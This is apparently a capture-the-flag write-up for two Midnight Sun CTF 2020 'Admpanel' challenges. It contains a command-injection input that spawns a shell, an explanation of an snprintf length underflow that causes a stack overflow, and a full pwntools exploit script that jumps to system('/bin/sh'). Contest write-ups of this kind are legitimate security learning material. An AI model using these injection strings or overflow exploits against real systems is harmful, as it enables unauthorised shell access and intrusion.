 # MidnightsunCTF2020
url: [https://ctf.midnightsunctf.se/](https://ctf.midnightsunctf.se/)
country: Sweden
team: TaQini@Nepnep 

## Admpanel

input `id && /bin/sh` to getshell

``` shell
$ nc admpanel-01.play.midnightsunctf.se 31337
---=-=-=-=-=-=-=-=-=---
-      Admin panel    -
-
- [0] - Help
- [1] - Authenticate
- [2] - Execute command
- [3] - Exit
---=-=-=-=-=-=-=-=-=---
 > 1
  Input username: admin
  Input password: password
 > 2
  Command to execute: id && /bin/sh
uid=999(ctf) gid=999(ctf) groups=999(ctf)
ls -al
total 32
drwxr-xr-x 1 root ctf   4096 Apr  3 05:41 .
drwxr-xr-x 1 root root  4096 Apr  3 05:41 ..
-rwxr-x--- 1 root ctf  14408 Apr  3 13:09 chall
-r--r----- 1 root ctf     41 Apr  2 21:20 flag
-rwxr-x--- 1 root ctf     71 Apr  2 21:20 redir.sh
cat flag
midnight{n3v3r_4sk_b0bb_to_d0_S0m3TH4Ng}
```


## Admpanel2

In func `sub_40121A`, `maxlen` is an unsigned integer, if the return value of `snprintf` is nearly `0x100`, after 3 times `maxlen -= n` executed , maxlen will be a great integer. Buffer overflow will happen after input a long string.

```c
  maxlen = 0x100LL;
  n = snprintf(&buf, 0x100uLL, "LOG: [OPERATION: %s] ", a1, a2);
  if ( n < 0 )
    exit(1);
  ptr += n;
  maxlen -= n;         // first 
  if ( authed )        // authed=1 after [1]auth 
  {
    n = snprintf(ptr, maxlen, "[USERNAME: %s] ", var_138);
    if ( n < 0 )
      exit(1);
    ptr += n;
    maxlen -= n;      // second 
  }
  if ( *var_rsp )
  {
    n = snprintf(ptr, maxlen, "%s", var_rsp);
    if ( n < 0 )
      exit(1);
    ptr += n;
    maxlen -= n;      // thrid, bof here
  }
  fprintf(stderr, "%s\n", &buf);
```

> bof is enable while `authed=1` 

This elf64 program use format string `%s` to print our input string to `ptr`(in stack) , so only one gadget can be used beacuse bad code `\x00` in address of gadget will terminal our input. 

>  ROP is not a good idea.

But ret2text is still available, only one gadget is enough: 

```nasm
.text:0000000000401598  mov     rdi, rax        ; command
.text:000000000040159B  call    _system
```

Before ret2text ,we should set `rax` point to `"/bin/sh"`. This work can be done by selected [1]auth one more time and set the begining of username to `"/bin/sh;"`.

Exp:

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './admpanel2'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

# info
# gadget
system = 0x000000000401598 

# elf, libc
satck = 0x4040E0+0x100
# rop1
offset = 282
payload = ''
payload += 'A'*offset
payload += p64(system)
payload = payload.ljust(1000,'\0')

# auth flag = 1
sla(' > ','1')
sla('  Input username: ','admin'+'a'*1000)
sla('  Input password: ','password233')

# rax <- /bin/sh;
sla(' > ','1')
sla('  Input username: ','/bin/sh;'+'b'*1000)

sla(' > ','2')
# debug('b *0x4015A1\nb *0x040121A')
sla('  Command to execute: ',payload)

p.interactive()
```

> focus on the layout of regs is helpful while pwnning ---

